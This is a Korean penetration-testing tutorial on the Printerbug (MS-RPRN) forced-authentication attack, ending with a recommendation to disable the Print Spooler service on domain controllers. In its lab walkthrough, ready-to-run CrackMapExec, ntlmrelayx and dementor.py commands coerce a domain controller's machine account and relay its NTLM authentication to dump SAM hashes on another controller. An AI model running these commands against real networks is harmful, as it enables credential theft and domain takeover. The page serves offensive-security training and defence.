# MS-RPRN - Printerbug / Print Spooler



![](../../.gitbook/assets/print-spooler-rpc.drawio\(3\).png)

Printerbug (프린터버그) / Print Spooler RPC 강제 인증은 타겟 서버에서 실행중인 Print Spooler 서비스의 `RpcRemoteFindFirstPrinterChangeNotificationEx` RPC 함수를 이용하는 공격이다. 공격은 다음과 같은 단계로 이뤄진다:&#x20;

1. 공격자는 사용자 인증이 필요없는 취약한 RPC 함수 중 하나인 `RpcRemoteFindFirstPrinterChangeNotificationEx` 를 타겟 서버에게 요청한다. 이 함수는 타겟 서버에서 프린터와 관련된 변화가 일어날 시 클라이언트에게 알림을 자동으로 해주는 함수다.&#x20;
2. 서버가 클라이언트가 RPC 함수를 실행했다는 것을 인지한다.
3. `RpcRemoteFindFirstPrinterChangeNotificationEx`  함수가 제대로 실행되려면 서버에서 클라이언트로 인증하고 접근 한 뒤, 클라이언트에게 알림 설정을 해줘야한다. 이 설정을 하기 위해 서버는 스스로 (하지만 사실상 클라이언트가 함수를 실행했으니 "강제"로) 공격자 클라이언트에게 서버 머신 계정 + Net-NTLMv1/v2 해시가 포함된 사용자 인증 패킷을 보낸다.&#x20;
4. 공격자는 이 머신 계정의 사용자 인증 패킷을 Responder 와 같은 툴로 받는다.&#x20;
5. 이후 이 머신 계정 이름 + Net-NTLMv1/v2 해시를  가지고 릴레이 공격, 다운그레이드 공격, RBCD 공격 등의 다양한 공격을 진행한다.&#x20;

### 전제 조건&#x20;

* 타겟 서버의 Print Spooler 서비스가 작동중이여야한다 - 윈도우 서버와 워크스테이션 운영체제에서는 기본적으로 활성화 되어있다.
* 도메인 유저 계정/문맥이 필요하다.&#x20;

### 실습&#x20;

* **DC01.choi.local (192.168.40.150)** - choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 다른 도메인 컨트롤러의 로컬 관리자 권한을 갖고 있다.&#x20;
* **DC1.pci.choi.local (192.168.40.160)** - pci.choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 dc01.choi.local 에게 로컬 관리자 권한을 줬다.&#x20;

![](<../../.gitbook/assets/image (12).png>)

도메인 컨트롤러가 다른 도메인의 도메인 컨트롤러 로컬 관리자 권한을 갖고 있는 것은 현실적이지 않은 시나리오다. 그와 동시에 실제 모의해킹 시 발견 가능성이 0%냐고 물어본다면 또 그렇지도 않은, 끔찍한 시나리오다.&#x20;

이번 실습에서는 dc01.choi.local에게 프린터버그 강제인증 -> NTLM 릴레이 -> dc1.pci.choi.local 의 SAM 덤프를 해본다.&#x20;

1.먼저 dc01.choi.local 이 프린터버그 에 취약한지, Spooler 서비스가 작동중인지 알아본다.&#x20;

```
cme smb dc01.choi.local -u low -p 'Password123!' -d choi.local -M spooler
```

![Enabled! Spooler 서비스/RPC가 작동중이다.](<../../.gitbook/assets/image (5) (2) (1).png>)

2\. 프린터버그 강제 인증을 실행하기 전, NTLM 릴레이를 먼저 세팅한다.&#x20;

```shell
python3 ntlmrelayx.py -t dc01.choi.local -smb2supportshel
```

3\. 프린터버그 강제 인증을 실행한다.&#x20;

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.182 192.168.40.150
```

4\. 결과를 확인한다.&#x20;

dc01.choi.local (192.168.40.150) 에게 프린터버그 강제인증 실행 -> dc01의 머신계정 (`choi.local\dc01$`) 의 NTLM 인증 트래픽이 공격자 호스트에게 전달 -> 그것을 릴레이해서 dc1.pci.choi.local 에게 전달 -> `dc01.choi.local` 이 `dc1.pci.choi.local` 의 로컬 관리자 권한을 갖고 있었기 때문에 SAM 덤프.&#x20;

![](<../../.gitbook/assets/image (7) (3).png>)

### 대응 방안&#x20;

강제 인증 공격을 가능케 해주는 Print Spooler 서비스는 프린트를 위한 서비스다. 수만명의 대기업 IT 인프라를 담당하는 도메인 컨트롤러 서를 물리적으로 방문해서 프린트를 한 적은 없을 것이다. 어디 데이터센터에 있는 도메인 컨트롤러에 비행기를 타고 가서 프린트를 하는 시스템 어드민 또한 본 적이 없다.&#x20;

따라서 프린터버그 강제 인증을 막는 방법은 Spooler 서비스를 비활성화 시키는 것이다. 특정 기능을 비활성화 시키는 것은 고객사에게 잘 추천하지 않지만, 이 경우 진짜 도메인 컨트롤러에서 프린트를 하는 사람이 없기 때문에 비활성화해도 비즈니스 운영에 있어 아무런 영향을 미치지 않는다.&#x20;

&#x20;

![프린트는 프린터에서 - 도메인 컨트롤러는 소중하다.](<../../.gitbook/assets/image (4) (2) (1).png>)

